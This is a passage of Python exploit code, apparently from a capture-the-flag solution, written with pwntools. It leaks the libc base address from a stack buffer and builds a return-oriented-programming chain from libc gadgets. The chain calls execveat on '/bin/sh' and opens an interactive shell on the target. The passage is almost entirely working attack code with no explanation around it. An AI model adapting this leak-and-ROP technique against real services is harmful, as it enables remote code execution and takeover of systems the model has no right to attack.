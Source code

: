 ```python
    t.sendline(b'512') # size
    t.sendlineafter(b'index: ', b'0')

    libc_base = u64(stkbuf[0xa8:0xb0]) - libc.symbols['__libc_start_main'] - 139
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    gadgets = ROP(libc)
    rdx = libc_base + 0xb5db0 # xor edx, edx; mov eax, edx; ret
    r8  = libc_base + 0x9874e # pop r8; mov qword ptr fs:[0x300], rdi; ret
    exec_rop = flat(gadgets.rdi.address, (1 << 64) - 100, # AT_FDCWD
                    gadgets.rsi.address, next(libc.search(b'/bin/sh')),
                    rdx, gadgets.rcx.address, 0, r8, 0,
                    libc.symbols['execveat'])
    t.send(exec_rop)

    t.clean()
    t.interactive()
    t.close()
    return 1
```
